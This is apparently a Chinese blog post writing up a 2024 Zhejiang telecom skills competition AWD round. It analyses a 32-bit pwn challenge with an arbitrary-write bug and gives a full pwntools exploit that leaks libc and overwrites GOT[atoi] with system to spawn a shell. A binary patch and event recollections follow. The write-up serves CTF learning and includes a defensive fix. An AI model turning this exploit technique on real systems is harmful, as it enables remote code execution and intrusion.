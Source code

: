 ```yaml
---
title: 2024浙江通信行业职业技能竞赛 - awd
date: 2024/08/06 23:31:00
updated: 2024/09/11 19:03:00
tags:
    - awd
    - offline
thumbnail: /assets/industrial2024/banner.jpg
excerpt: （信息安全测试员竞赛）下午的awd拿分拿到爽，最后团体第三
---
```


本次awd共2道web一道pwn

队友：Doddy & mysid

从上午的个人赛发现几乎都没什么人会pwn，疯狂拿分夺得第三！

## pwn赛题

{% note info fa-paperclip %}
题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到
{% endnote %}

### 文件属性

|属性  |值    |
|------|------|
|Arch  |x86   |
|RELRO |No    |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.16|

### 程序粗解

C++菜单题，只用到了`cout`和`endl`，使用`atoi`来把输入的字符串转换为int

### 漏洞分析

1. `main`函数中输入菜单项时，在栈上存在可以覆盖的指针，随后可以对指针写入任意内容

![bug1](/assets/industrial2024/bug1.png)

{% note purple fa-exclamation %}
`"%4094s"`不允许修改，否则过不了check
{% endnote %}

![add](/assets/industrial2024/add.png)

2. `edit`函数中输入的索引可以基于`heap`做任意写，未经检查

![bug2](/assets/industrial2024/bug2.png)

### 个人题解

可以先利用任意地址写把`GOT[atoi]`写到`heap`上，这样`show`就能leak libc；
然后再利用`edit`就可以把`system`的地址写上去，最后输入 *'/bin/sh'* 就可以拿shell

> 本来想再次利用scanf原语的，但是输入的是`system`的数字，实际写的时候却变成了-1，
> 知道原因的话可以评论

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './pwn3'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/usr/lib32/libc.so.6')
    else:
        sh = remote('10.103.2.3', 9999)
        libc = ELF('./libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'shop===', b'1'.ljust(0x30, b'\0') + p32(elf.symbols['heap']))
    sh.sendlineafter(b'Size', str(elf.got['atoi']).encode())
    sh.sendlineafter(b'shop===', b'3')
    sh.sendlineafter(b'Index', b'0')
    sh.recvuntil(b'content:')
    
    libcBase = u32(sh.recv(4)) - libc.symbols['atoi']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase
    info(f'system@{libc.symbols["system"]:#x}')

    sh.sendlineafter(b'shop===', b'4'.ljust(0x30, b'\0') + p32(elf.got['atoi']))
    # sh.sendlineafter(b'Size', str(libc.symbols['system']).encode())
    sh.sendlineafter(b'Index', b'-7')
    sh.sendlineafter(b'content:', p32(libc.symbols['system']))
    sh.sendlineafter(b'shop===', b'/bin/sh')

    sh.clean()
    sh.interactive()
```

### 参考修复方案

先上个通用沙箱，然后patch以下问题

```diff
--- orig.S
+++ patched.S
@@ -8049b69,8049b7c +8049b69,8049b7c @@
 ; main
-8d 85 f4 ef ff ff      lea eax, [ebp - 0x100c]
-83 c0 30               add eax, 0x30
-8b 00                  mov eax, DWORD PTR [eax]
+8d 83 60 00 00 00      lea eax, [ebx + 0x60]   ; &data_start
+90                     nop
+90                     nop
+90                     nop
+90                     nop
 83 ec 0c               sub esp, 0xc
 50                     push eax
 e8 2a fa ff ff         call add
@@ -8049a95,8049ab3 +8049a95,8049ab3 @@
 ; edit
 8b 45 f0               mov eax, DWORD PTR [ebp - 0x10]
 8d 14 85 00 00 00 00   lea edx, [eax * 4]
-8d 83 70 00 00 00      lea eax, [ebx + 0x70]   ; heap
-01 d0                  add eax, edx            ; &heap[index]
+8d 83 68 00 00 00      lea eax, [ebx + 0x68]   ; &DW.ref.__gxx_personality_v0
+90                     nop
+90                     nop
 83 ec 04               sub esp, 0x4
 6a 08                  push 0x8
 50                     push eax
 6a 00                  push 0x0
 e8 0c f8 ff ff         call read
```

第一处修改，把地址修改为bss上的地址个人认为比较好，但是第二处修改由于本质上没有做检查，
忽略了`index`，实际上有所疏漏，只是能过check，不能算一个好的方案

{% folding pink::比赛经历分享 %}
7月31号到达酒店，第二天作为凌武科技实习生参加比赛。早上是个人赛，理论题+CTF，
下午是团队赛AWD，8月3号还有一天的渗透赛，我没报名，提前溜了

系统用的是跟上海赛一模一样的系统

![live](/assets/industrial2024/live.jpg)

中饭主办方提供了堂食，还不错

![lunch](/assets/industrial2024/lunch.jpg)

下午打awd的时候，由于场上没多少人会pwn（由上午的个人赛中，
pwn的简单题除了我只有1人解出可见），当我拿出exp时，那一轮直接拿了900+的分，
不过后面强队修洞，弱队关服务， 最后一轮只拿了300+分。
最后也是顺利拿下了第三名，晚上出去搓了一顿

![dinner](/assets/industrial2024/dinner.jpg)

比赛还发了参赛证，长下面这样，顺便还贴了前几名的成绩

![score](/assets/industrial2024/score.jpg)

*更新于24/09/11*

个人赛只打了2道pwn+1道简单的逆向，理论题都是瞎做的，结果意外拿了个人三等奖，
团队最后拿了二等奖，后面去移动大厦领奖了。大公司的装修就是不一样啊

![conference](/assets/industrial2024/conference.jpg)
{% endfolding %}
